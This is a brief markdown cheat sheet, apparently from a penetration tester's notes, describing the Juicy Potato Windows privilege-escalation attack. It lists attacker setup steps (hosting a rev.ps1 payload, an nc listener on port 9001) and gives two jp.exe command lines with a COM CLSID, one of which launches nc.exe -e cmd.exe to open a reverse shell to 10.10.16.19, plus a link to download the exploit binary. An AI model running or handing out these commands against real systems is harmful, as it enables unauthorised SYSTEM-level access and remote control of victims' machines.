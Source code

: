 # Juicy Potato Attack

## Juicy Potato Attack
- Setup www webserver on attacking machine (8000)
- Place your rev.ps1 into the www webserver
- Move a copy of setup.bat to your attacking host, or besure the contents have the PowerShell command
- Setup nc listener on 9001 (or whatever port, change rev.ps1 port if different)

```
jp.exe -t * -p c:\Users\<user>\Documents\setup.bat -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"

jp.exe -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\kohsuke\Documents\nc.exe -e cmd.exe 10.10.16.19 9001" -t *
```

 [OHPE GitHub Juicy-Potato](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe)
 
 [OHPE CLSID by Operating System](https://ohpe.it/juicy-potato/CLSID/)